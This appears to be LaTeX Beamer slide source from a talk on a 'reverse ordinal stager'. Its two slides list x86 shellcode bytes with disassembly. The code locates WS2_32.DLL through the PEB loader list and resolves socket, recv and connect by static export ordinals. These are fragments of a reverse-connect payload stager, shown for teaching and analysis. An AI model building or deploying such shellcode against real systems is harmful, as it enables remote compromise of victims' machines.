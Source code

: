 \documentclass{beamer}
\begin{document}
\subsection{Reverse Ordinal Stager Implementation}
\begin{frame}[fragile]
    \frametitle{Locating WS2\_32.DLL's base address}

\footnotesize{
    \begin{verbatim}
FC         cld                   ; clear direction (lodsd)
31DB       xor ebx,ebx           ; zero ebx
648B4330   mov eax,[fs:ebx+0x30] ; eax = PEB
8B400C     mov eax,[eax+0xc]     ; eax = PEB->Ldr
8B501C     mov edx,[eax+0x1c]    ; edx = Ldr->InitList.Flink
8B12       mov edx,[edx]         ; edx = LdrModule->Flink
8B7220     mov esi,[edx+0x20]    ; esi = LdrModule->DllName
AD         lodsd                 ; eax = [esi] ; esi += 4
AD         lodsd                 ; eax = [esi] ; esi += 4
4E         dec esi               ; esi--
0306       add eax,[esi]         ; eax = eax + [esi]
                                 ; (4byte unicode->ANSI)
3D32335F32 cmp eax,0x325f3332    ; eax == 2_32?
75EF       jnz 0xd               ; not equal, continue loop

    \end{verbatim}
}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Resolve symbols using static ordinals}

\footnotesize{
    \begin{verbatim}
8B6A08     mov ebp,[edx+0x8]     ; ebp = LdrModule->BaseAddr
8B453C     mov eax,[ebp+0x3c]    ; eax = DosHdr->e_lfanew
8B4C0578   mov ecx,[ebp+eax+0x78]; ecx = Export Directory
8B4C0D1C   mov ecx,[ebp+ecx+0x1c]; ecx = Address Table Rva
01E9       add ecx,ebp           ; ecx += ws2base
8B4158     mov eax,[ecx+0x58]    ; eax = socket rva
01E8       add eax,ebp           ; eax += ws2base
8B713C     mov esi,[ecx+0x3c]    ; esi = recv rva
01EE       add esi,ebp           ; esi += ws2base
03690C     add ebp,[ecx+0xc]     ; ebp += connect rva
    \end{verbatim}
}
\end{frame}
\end{document}
